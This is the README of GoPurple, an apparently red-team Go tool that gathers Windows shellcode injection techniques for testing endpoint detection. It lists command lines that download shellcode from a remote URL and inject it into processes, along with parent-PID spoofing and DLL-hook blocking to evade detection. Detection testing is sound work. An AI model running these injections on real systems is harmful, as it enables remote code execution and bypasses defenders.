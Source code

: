 # GoPurple

This project is a simple collection of various shell code injection techniques, aiming to streamline the process of endpoint detection evaluation, beside challenging myself to get into Golang world.




# Installation

1 - Requires [go](https://golang.org/dl/) installed on a windows machine.

2-  Build the application from the project's directory: go build gopurple.go


```
  _____                              _
  / ____|                            | |
 | |  __  ___  _ __  _   _ _ __ _ __ | | ___
 | | |_ |/ _ \| '_ \| | | | '__| '_ \| |/ _ \
 | |__| | (_) | |_) | |_| | |  | |_) | |  __/
  \_____|\___/| .__/ \__,_|_|  | .__/|_|\___|
              | |              | |
              |_|              |_|   by @s3cdev

 -a string
        Program command line arguments
  -b string
        block DLL mode (nonms/onlystore for QueueUserAPC )
  -p int
        Process ID to inject shellcode into
  -prog string
        program to inject into
  -t string
        shellcode injection technique to use:
         1: CreateFiber
         2: syscall
         3: CreatetThreadNative
         4: CreateProcess
         5: EtwpCreateEtwThread
         6: CreateRemoteThread
         7: RtlCreateUserThread
         8: CreateThread
         9: CreateRemoteThreadNative
         10: CreateProcessWithPipe
         11: QueueUserAPC
         12: CreateThreadpoolWait
         13: BananaPhone
  -u string
        URL hosting the shellcode

```




# Examples:

A shellcode needs to be generated,this can be done using tools such as [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) or [shad0w](https://github.com/bats3c/shad0w). Then the shellcode needs to be hosted to be remotely downloaded and executed on the remote machine.
For the sake of clarity, the below demos illustrate different ways of using the tool.

1 - Shellcode injection using BananaPhone method + Shad0w as the shellcode generator

![](demo1.gif)




2 - Shellcode injection using QueueUserAPC technique + Shad0w as the shellcode generator +  spoofing the parent ID (explorer as the parent ID) +  process launching by spoofed parent that contains the shellcode(calc) + protecting the process from unsigned DLL hook, so only Microsoft signed DLL can hook into the process.

![](demo2.gif)


3- Shellcode injection using CreateFiber + msfvenom as the shellcode generator

![](demo3.gif)

# How To Use:

```
1 - gopurple.exe -u urlhostingpayload -t 1 (CreateFiber)

2 - gopurple.exe -u urlhostingpayload -t 2 (Syscall)

3 - gopurple.exe -u urlhostingpayload -t 3 (CreatetThreadNative)

4 - gopurple.exe -u urlhostingpayload -t 4 (CreateProcess)

5 - gopurple.exe -u urlhostingpayload -t 5 (EtwpCreateEtwThread)

6 - gopurple.exe -u urlhostingpayload -t 6 -p tagetprocess (CreateRemoteThread)

7 - gopurple.exe -u urlhostingpayload -t 7 -p tagetprocess (RtlCreateUserThread)

8 - gopurple.exe -u urlhostingpayload -t 8 //(CreateThread)

9 - gopurple.exe -u urlhostingpayload -t 9 -p tagetprocess (CreateRemoteThreadNative)

10 - gopurple.exe -u urlhostingpayload -t 10 -prog porgram -a processargument (ex:C:\Windows\System32\WindowsPowerShell\v1.0) and processargument(ex:Get-Process)  (CreateProcessWithPipe)

11 - gopurple.exe -u urlhostingpayload -t 11 -p targetpidasparentprocess -prog programtoinjectshellcodeinto -b methodtoblockdll(nonms or onlystore)  (QueueUserAPC)

nonms = only DLLs that are signed by Microsoft can hook into the process

onlystore = only Microsoft store application's process can hook into the process  

12 -  gopurple.exe -u urlhostingpayload -t 12 (CreateThreadpoolWaitpool)
 
13 - gopurple.exe -u urlhostingpayload -t 13 (BananaPhone)
```


# Acknowledgments:

All the credits go to following guys for their awesome researches,tools and inspiration: 

* [ne0nd0g](https://twitter.com/ne0nd0g): Most of the codes and techniques

* [spotheplanet](https://twitter.com/spotheplanet): The [blogpost](https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait) inspired me to convert the method to Golang

* [_d00mfist](https://twitter.com/_d00mfist): Great implementation of QueueUserAPC technique in Golang 

* [c__sto](https://twitter.com/c__sto): Amazing BananPhone technique 

* [_batsec_](https://twitter.com/_batsec_): The great shad0w

* [chiragsavla94](https://twitter.com/chiragsavla94): Inspired from [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection)


# References

(https://github.com/Ne0nd0g/go-shellcode)

(https://www.ired.team/)

(https://github.com/D00MFist/Go4aRun)

(https://posts.specterops.io/going-4-a-run-eb263838b944)

(https://github.com/C-Sto/BananaPhone)

(https://blog.xpnsec.com/protecting-your-malware)

(https://github.com/3xpl01tc0d3r/ProcessInjection)


# Future Plans

* Shellcode Encryption
* More structured code


# Legal Disclaimer
This project is made for educational and ethical testing purposes only.Usage of GoPurple for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developer assume no liability and are not responsible for any misuse or damage caused by this program






